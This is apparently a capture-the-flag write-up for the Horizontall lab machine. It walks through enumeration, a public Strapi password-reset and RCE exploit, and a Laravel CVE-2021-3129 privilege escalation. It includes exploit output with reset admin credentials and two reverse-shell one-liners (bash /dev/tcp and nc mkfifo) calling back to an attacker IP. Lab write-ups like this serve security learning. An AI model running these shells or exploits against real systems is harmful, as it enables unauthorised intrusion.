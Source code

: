 # Horizontall Write-Up

Easy

Tags:
`CMS Exploit`
`Outdated Software`
`CVE`
`Injection`
`RCE`
`Account Misconfiguration`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
```

Add domain to local DNS

```
echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts
```

### Site horizontall.htb enumeration

View js file `app.c68eb462.js`

```js
methods: {
    getReviews: function() {
        var t = this;
        r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
            return t.reviews = s.data
        }))
    }
}
```

Add `api-prod.horizontall.htb` to local DNS

gobuster directory brute-force

```
/admin
/reviews
/users
```

## Exploitation

```
searchsploit strapi

------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)          | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authe | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (U | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) | nodejs/webapps/50716.rb
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

use `multiple/webapps/50239.py`

```
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU1NzE1Mjg5LCJleHAiOjE2NTgzMDcyODl9.LQBwpfs5JNWjUw3hquhlb3fk9sMqU_LUtbWzQcpQKHI
```

run bash reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1'
```

login http://api-prod.horizontall.htb/admin/auth/login

## Privilege Escalation

[SSH local port forwarding](https://www.ssh.com/academy/ssh/tunneling/example#local-forwarding)

```
ssh -L <target-port>:localhost:<local-port> <target-user>@<target-ip>
```

Site `http://localhost:8000`

gosbuter => /profiles

lavarel debug mode vuln

cve-2021-3129 => https://github.com/nth347/CVE-2021-3129_exploit.git

nc mkfifo
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.12 4444 >/tmp/f
```
